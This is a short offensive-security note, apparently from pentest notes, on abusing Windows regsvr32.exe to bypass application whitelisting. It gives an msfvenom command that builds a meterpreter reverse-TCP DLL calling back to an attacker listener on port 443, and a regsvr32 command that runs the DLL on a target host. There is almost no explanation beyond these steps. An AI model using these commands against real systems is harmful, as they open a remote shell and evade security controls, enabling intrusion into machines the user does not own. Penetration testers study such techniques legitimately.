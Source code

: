 # regsvr32
Regsvr32 is a Microsoft command-line tool to register and unregister Dynamic Link Libraries (DLLs)  in the Windows Registry. The regsvr.exe binary is located at:

*   C:\\Windows\\System32\\regsvr32.exe for the Windows 32 bits version
*   C:\\Windows\\SysWOW64\\regsvr32.exe for the Windows 64 bits version

The technique used in the regsvr32.exe uses trusted Windows OS components and is executed in memory, which is one of the reasons why this technique is also used to bypass application whitelisting. 

Exploit:

Create a malicious dll with:

```text-plain
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f dll -a x86 -o living.dll 
```

transfer it to host, and run it with:

```text-plain
c:\Windows\System32\regsvr32.exe living.dll
```